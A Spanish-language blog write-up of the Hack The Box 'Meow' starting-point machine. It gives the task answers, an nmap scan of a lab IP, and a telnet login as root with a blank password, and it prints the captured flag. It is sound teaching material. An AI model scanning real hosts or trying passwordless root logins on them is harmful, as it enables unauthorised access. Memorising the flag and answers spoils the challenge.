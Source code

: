```yaml
---
title: Máquina Meow - HTB
published: 2024-09-23
description: 'Write-Up de la máquina Meow de Hack the Box '
image: ''
tags: [HTB, writeup, telnet, nmap]
category: 'HTB'
draft: false 
lang: 'es'
---
```


**Hack The Box** (HTB) es una plataforma en línea que permite a los entusiastas de la ciberseguridad practicar habilidades de hacking ético a través de desafíos y máquinas virtuales. 

El **Starting Point** es una sección de HTB diseñada para quienes inician en el mundo del hacking. Ofrece máquinas con desafíos accesibles, junto con guías y soporte de la comunidad, facilitando el aprendizaje de herramientas y metodologías esenciales.

En este artículo, nos enfocaremos en la máquina **Meow**, un desafío del Starting Point que nos permitirá aplicar nuestros conocimientos. Exploraremos los pasos necesarios para comprometer la máquina, desde la recopilación de información hasta el acceso al sistema, brindando una comprensión práctica de conceptos clave en ciberseguridad.

### HAPPY HACKING!

![](img/htb_meow.png)

**Dificultad:** Very Easy

**Tags:** Telnet | Protocolos | Reconocimiento | Credenciales Débiles | Malas configuraciones


## Tareas:

1. ¿Qué significa el acrónimo VM?   
Respuesta: *Virtual Machine*

1. ¿Cómo se llama la herramienta que usamos para interactuar con el sistema operativo y emitir comandos a través de la línea de comandos, como por ejemplo cuando iniciamos nuestra conexión VPN a esta máquina? También se conoce como consola o shell.  
Respuesta: *Terminal*

1. ¿Qué servicio usamos para establecer nuestra conexión VPN en los laboratorios de HTB?  
Respuesta: *openvpn*

1. ¿Qué herramienta usamos para probar nuestra conexión al objetivo con una solicitud de eco ICMP?  
Respuesta: *ping*

1. ¿Cómo se llama la herramienta más común para encontrar puertos abiertos en un objetivo?  
Respuesta: *nmap*

1. ¿Qué servicio identificamos en el puerto 23/tcp al escanear la máquina víctima?  


Para esto utilizaremos la herramienta `nmap`

`Nmap` es una herramienta que permite escanear redes para identificar puertos, servicios y hosts. Se utiliza comúnmente en auditorías de seguridad y administración de redes.

```
kali@kali:~$ sudo nmap -p- -sS -sCV -T5 --open -vvv -n -Pn 10.129.178.47
```
| Opción     | Descripción                                                              |
|------------|--------------------------------------------------------------------------|
| `-p-`      | Escanea todos los puertos (del 1 al 65535).                            |
| `-sS`      | Realiza un escaneo de puertos en modo "SYN" (sigiloso).                |
| `-sCV`     | Ejecuta scripts predeterminados y detecta versiones de servicios.       |
| `-T5`      | Establece el nivel de velocidad del escaneo (Insane).              |
| `--open`   | Muestra solo los puertos que están abiertos.                            |
| `-vvv`     | Aumenta la verbosidad del output, mostrando más detalles.               |
| `-n`       | Evita la resolución de nombres DNS.                                     |
| `-Pn`      | No realiza un escaneo de "ping" para determinar si el host está activo. |


Resultado del escaneo:
```
PORT   STATE SERVICE REASON         VERSION
23/tcp open  telnet  syn-ack ttl 63 Linux telnetd
```

Se ha identificado el puerto 23 abierto asociado con el protocolo TCP, el cual esta utilizando el servicio `Telnet`

:::NOTE[RESPUESTA]
*telnet*
:::

- ¿Qué es el protocolo TCP?  
    El **Protocolo de Control de Transmisión (TCP)** es un protocolo de red que permite la comunicación confiable entre dispositivos.

- ¿Qué es el servicio Telnet?  
    Telnet permite a los usuarios acceder de manera remota a otros dispositivos a través de la red. Este protocolo es **orientado a conexión**, lo que significa que establece una conexión antes de la transmisión de datos, y proporciona una comunicación confiable entre el cliente y el servidor.   
    Sin embargo, Telnet transmite información en texto plano, lo que lo hace **vulnerable** a la interceptación.

7. ¿Qué username puede iniciar sesión en el objetivo a través de telnet con una contraseña en blanco?

    Respuesta: *root*

8. Envía la flag

Para esto seguiremos lo visto en la pregunta 7, el usuario que puede iniciar sesión en el servicio `telnet` sin utilizar contraseña es el usuario `root`

Ya sabemos que la máquina víctima con ip 10.129.178.47 tiene el puerto 23 abierto utilizando el servicio telnet

Por lo tanto utilizaremos el siguiente comando
```
kali@kali:~$ telnet 10.129.178.47
```
Nos dará el siguiente output

```
Trying 10.129.178.47...
Connected to 10.129.178.47.
Escape character is '^]'.

  █  █        ▐▌     ▄█▄ █          ▄▄▄▄
  █▄▄█ ▀▀█ █▀▀ ▐▌▄▀    █  █▀█ █▀█    █▌▄█ ▄▀▀▄ ▀▄▀
  █  █ █▄█ █▄▄ ▐█▀▄    █  █ █ █▄▄    █▌▄█ ▀▄▄▀ █▀█

Meow login: root
```

Una vez nos logeamos como `root` este es el resultado

```
Welcome to Ubuntu 20.04.2 LTS (GNU/Linux 5.4.0-77-generic x86_64)

75 updates can be applied immediately.
31 of these updates are standard security updates.
To see these additional updates run: apt list --upgradable

The list of available updates is more than a week old.
To check for new updates run: sudo apt update

Last login: Mon Sep  6 15:15:23 UTC 2021 from 10.10.14.18 on pts/0

root@Meow:~#
```

Ya tenemos acceso a la terminal `root` de la máquina `Meow`
Ahora solo tenemos que conseguir la flag.  
Daremos un vistazo con `ls`
```
root@Meow:~# ls
flag.txt  snap
```

Encontramos el archivo `flag.txt`, ahora utilizaremos el comando `cat` para leer su contenido.

```
root@Meow:~# cat flag.txt
b40abdfe23665f766f9c61ecba8a4c19
```
Copiamos la flag y la adjuntamos como respuesta de la tarea 8

![](https://miro.medium.com/v2/resize:fit:1400/0*vSzDQ9EmNon2n3CM)

### Felicitaciones por completar la máquina Meow de Hack The Box
Espero que este WriteUp te haya sido útil para adquirir conocimientos básicos de hacking, en próximos articulos estaré desarrollando el resto de máquinas del "Starting Point" de Hack The Box.  




